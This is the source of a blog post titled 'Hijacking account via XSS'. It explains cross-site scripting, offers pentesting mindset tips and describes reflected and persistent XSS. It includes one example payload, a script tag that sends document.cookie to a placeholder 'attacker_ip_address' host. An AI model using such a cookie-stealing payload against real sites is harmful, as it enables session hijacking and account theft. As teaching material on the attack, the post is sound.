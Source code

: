 ```yaml
---
layout: post
title: Hijacking account via XSS
description: "A simple proof of concept on how to steal account via XSS vulnerability! April 7"
tags: [xss, hacking, exploitation]
comments: true
---
```

[Cross-Site Scripting (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page.

### Sniff like a dog

Before initiating a pentest, I normally play with the application first. I use different tools to watch the traffic. I take down notes of things that I'm very interested in such as changing password, updating profile, uploading attachments, etc. You have to examine/dissect the request that was generated. You have to think harder, generate the flow on your head by asking yourself with "what if I bypass this/that". You have to be creative! This is what sets hackers apart from script kiddies.

### Let's start the exploitation

There are multiple ways we can test an application for vulnerabilities. I'll be demonstrating persistent XSS attack. XSS is a vulnerability that is 98% caused by developer's carelessness. XSS vulnerability is actually very easy to fix. However, the cause it brings can be small to massive.

#### What is Persistent XSS attack
There are 3 different types of Cross Site Scripting attack, reflected, persistent and DOM-based. Reflected attack is normally accomplished with social engineering such as sending an email to the victim with a link that contains a script on the url. When this link is clicked by the victim, part of the HTML page is modified. When the HTML page gets loaded, the script is executed without the knowledge of the victim. An example attack would be including the code

{% highlight html %}
 <script>document.location.href="http://attacker_ip_address/script.php?c=document.cookie"</script>
{% endhighlight %}

What this will do is that it will retrieve the document.cookie which might contain the session id thereby allowing the attacker to gain more information about the victim's existing connection. It will initiate a call back to the attacker's server ip address containing the cookies. On the attacker's side, he might have a logger that stores all the values of c(see query string above).